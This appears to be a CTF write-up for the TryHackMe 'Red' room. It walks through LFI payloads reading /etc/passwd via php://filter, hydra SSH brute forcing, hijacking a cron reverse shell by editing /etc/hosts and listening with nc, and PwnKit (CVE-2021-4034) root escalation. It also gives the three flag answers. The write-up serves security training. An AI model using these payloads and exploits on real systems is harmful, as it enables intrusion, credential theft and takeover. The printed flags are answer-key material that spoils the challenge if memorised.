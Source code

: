 # [Red](https://tryhackme.com/room/redisl33t)

> A classic battle for the ages.

## Scanning

scan the target

```
nmap -sS -sV -sC -T4 10.10.196.223
```

there are 2 open ports ssh and http

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/31d71fa4-4084-40c4-b899-d43d03f6dc3e)

## HTTP

check the webpage, you will see there is a parameter `?page=home.html`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ed12e81e-60ee-43af-a145-a537dcb206b0)

it appears for a Local File Inclusion (LFI) vulnerable

so i tried some payloads like `?page=../../../etc/passwd` or `?page=....//....//....//etc/passwd` are not work

for some research i found Exploiting Local File Inclusion (LFI) Using PHP Wrapper

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/49e4dbde-936b-4d4c-a2da-7bcaca159eee)

```
?page=php://filter/resource=/etc/passwd
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/2cb33fc8-98c3-4f95-a64e-f4e572068c41)

we see that 2 users on the machine call red & blue

## Enumeration

i will use LFI Hunter to enummerate some interest files

```
git clone https://github.com/hadrian3689/lfi_hunter
cd lfi_hunter
python3 lfi_hunter.py -u 'http://10.10.196.223/index.php?page=' -l 'php://filter/resource=' -w unix.txt
```

it reveal a lot of information, but it found something interesting in blue's history

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/973f19c4-6d5f-4e3a-b63a-55712c4906bd)

it seem blue has create a hashcat rule to build a password list from a .reminder file

```
?page=php://filter/resource=/home/blue/.reminder
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/245f5887-0e6e-45ca-bbb5-627fda15a2d6)

so recreate the password list with the same command

```
echo 'sup3r_p@s$w0rd!' > pass.txt
hashcat --stdout pass.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3083eaae-c4e0-451d-9b5c-475ed9a6b94e)

## Exploitation

so, let's bruteforce the password with hydra

```
hydra -l blue -P passlist.txt ssh://10.10.196.223
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/adbdd4a4-6cd5-4fe6-b7ca-9e03701891e3)

ssh to blue

```
ssh blue@10.10.196.223
sup3r_p@s$w0rd!23
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5f72e1d7-98a1-44f0-8dd3-930c49991fb0)

| Flag | flag1 |
| --- | --- |
| Answer | THM{Is_thAt_all_y0u_can_d0_blU3} |

i have a message from red, and got kicked out from the machine and blue's password change

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f2d192e6-21ac-4ef6-b19c-01b71929e532)

try again

```
hydra -l blue -P passlist.txt ssh://10.10.196.223
# and ssh again with new password
ssh blue@10.10.196.223
```

there are a cronjob write annoying message, you can check it with `pspy` or just other simple way

```
ps aux
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8ef322df-2968-43a1-a121-f7cea16dff8b)

we see that it's a reverse shell command that is connecting to redrules.thm on port 9001 runs every minute

i decided to check the hosts file and see what is this domain

```
cat /etc/hosts
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/143dcbac-ba64-4a2e-9a55-f34a617f921f)

but we have read and write permission of it

```
echo '10.18.37.45 redrules.thm' >> /etc/hosts
```

```
nc -vlnp 9001
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/afbaecf5-a075-4aaf-9d90-f5941d2b4168)

| Flag | flag2 |
| --- | --- |
| Answer | THM{Y0u_won't_mak3_IT_furTH3r_th@n_th1S} |

## Privilege Escalation

so we got the shell, upgrade it

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```

find suid bit

```
find / -perm -u=s -type f 2>/dev/null
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7b1607aa-afc3-4c73-a433-a41a6db38c95)

hmm, by some research i see it related to CVE-2021-4034

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d24d2f51-20ab-4429-93c6-d0d056b0c557)

however, we don't have gcc or make installed

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b7a70022-8205-47f7-a8ec-5f30480fdf55)

so find a exploit using python

```
git clone https://github.com/joeammond/CVE-2021-4034
cp CVE-2021-4034/CVE-2021-4034.py pwnkit.py
vi pwnkit.py
```

edit the location of pkexec on the script

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c3cac580-5df8-46bd-a472-97ce33a8731b)

```
python3 pwnkit.py
```

our final flag

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/10565c73-ca0c-439b-b0f5-74777d82c8da)

| Flag | flag3 |
| --- | --- |
| Answer | THM{Go0d_Gam3_Blu3_GG} |
